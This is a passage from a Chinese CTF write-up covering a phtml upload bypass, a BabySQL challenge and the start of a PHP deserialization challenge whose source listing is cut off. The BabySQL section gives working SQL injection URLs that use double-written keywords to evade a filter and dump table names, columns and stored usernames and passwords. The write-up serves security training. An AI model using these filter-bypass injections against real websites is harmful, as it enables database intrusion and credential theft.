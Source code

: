 正常连接即可

## [ACTF2020 新生赛]Upload

同上题一样

`phtml`文件上传

## [极客大挑战 2019]BabySQL

`sql注入`

`双写绕过`

注意`information_schema`中包含`or`，所以双写绕过为`infoorrmation_schema`

```sql
check.php?username=1%27ununionion selselectect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema=database()%23&password=123

?username=1%27ununionion selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name="b4bsql"%23&password=123

?username=1%27ununionion selselectect 1,2,group_concat(id,username,passwoorrd) frfromom b4bsql%23&password=123
```

## [极客大挑战 2019]PHP

`php反序列化`

`代码审计`

进入首页有提示备份源码

常见的压缩包路径查看，发现`www.zip`

下载后在`index.php`中发现反序列化入口

```php
<!DOCTYPE html>
<head>
  <meta charset="UTF-8">
  <title>I have a cat!</title>
  <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/meyer-reset/2.0/reset.min.css">
      <link rel="stylesheet" href="style.css">
</head>
<style>
    #login{   
        position: absolute;   
        top: 50%;   
        left:50%;   
        margin: -150px 0 0 -150px;   
        width: 300px;   
        height: 300px;   
    }   
    h4{   
        font-size: 2em;   
        margin: 0.67em 0;   
    }
</style>
<body>





```